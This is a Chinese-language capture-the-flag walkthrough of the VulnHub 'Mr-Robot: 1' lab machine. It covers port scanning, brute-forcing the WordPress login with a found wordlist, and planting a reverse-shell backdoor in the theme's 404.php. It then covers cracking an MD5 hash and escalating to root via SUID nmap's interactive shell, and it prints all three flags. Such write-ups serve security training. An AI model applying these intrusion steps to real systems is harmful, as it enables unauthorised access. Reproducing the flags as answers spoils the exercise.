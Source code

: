 # Mr-Robot: 1

2024-4-20 https://www.vulnhub.com/entry/mr-robot-1,151/

difficulty: beginner-intermediate

## IP

192.168.10.171

## Scan

Open Port -> 22,80,443

```
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
```

ssh 22 状态为 closed，先看看 80 和 443 上有什么信息，看到首页上是一些列视频。使用目录扫描工具，发现网站使用了 wordpress 搭建。

访问 http://192.168.10.171/robots 发现重要提示：

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

## flag1

访问 http://192.168.10.171/key-1-of-3.txt

```
073403c8a58a1f80d943455fb30724b9
```

查看另外一个文件 http://192.168.10.171/fsocity.dic ，显示的是一个单词列表，看起来中有用户名，也有密码，把它下载下来，进行内容去重：

```
cat fsocity.dic | sort | uniq > dict
```

尝试用得到的字典，在 wp 登陆页面，先尝试获得用户名：elliot、Elliot、ELLIOT；然后在用得到的用户名，去用同样的字典爆破，找到三个账号的密码都是：ER28-0652，登陆后发现这 3 个用户名对应的是一个账户，并且是 Administrator，所以在 wp 中可以插入 web shell。

在 404 提醒页面中插入我们的后门反弹连接代码，http://192.168.10.171/wp-admin/theme-editor.php?file=404.php&theme=twentyfifteen，点击下面的 update 进行保存。访问一个不存在的页面，触发这个 404.php 就能够触发反弹的连接：http://192.168.10.171/wp-admin/1111 ，在 kali 中使用 nc 进行监听。

得到反弹的 shell 后，先升级 tty: python -c 'import pty; pty.spawn("/bin/bash")'

在 /home/robot 目录下，我们发现了 key-2-of-3.txt ，但是目前没有权限读取，领完有一个 md5 的密码文件：password.raw-md5：

```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

在 md5 网站查询，获得了明文： abcdefghijklmnopqrstuvwxyz

## flag2

切换到 robot 用户，读取到了 key-2-of-3.txt：

```
822c73956184f694993bede3eb39f959
```

## flag3

第 3 个 flag 估计是在 root 目录下。经过 linpeas 的枚举，发现一个 SUID 文件/usr/local/bin/nmap，进行利用获得 root 权限的 shell：

```
nmap --interactive
nmap> !sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root
cd /root
# ls -al
ls -al
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

